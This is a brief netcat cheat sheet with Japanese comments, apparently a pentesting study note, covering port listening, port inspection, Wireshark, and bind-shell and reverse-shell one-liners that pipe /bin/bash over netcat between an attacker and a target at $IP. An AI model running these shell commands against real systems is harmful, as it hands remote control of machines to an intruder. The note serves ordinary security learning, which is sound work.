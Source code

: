 How to Use Netcat

//netcatdでポート5555で接続を待ち受ける
nc -nlvp 5555

//接続待ちのポートを調べる
netstat -atn
lsof -i

//wireshark
sudo wireshark

//netcatでターゲットに接続する
nc $IP 5555


//Bind shell
//接続側：netcatをサーバーとして動作させて、接続したらシェルを操作できるようにする
nc -nlvp 5555 -e /bin/bash

//攻撃側から接続する
nc $IP 5555


//Reverse shell
//攻撃側
nc -nlvp 5555

//接続側
nc $IP 5555 -e /bin/bash

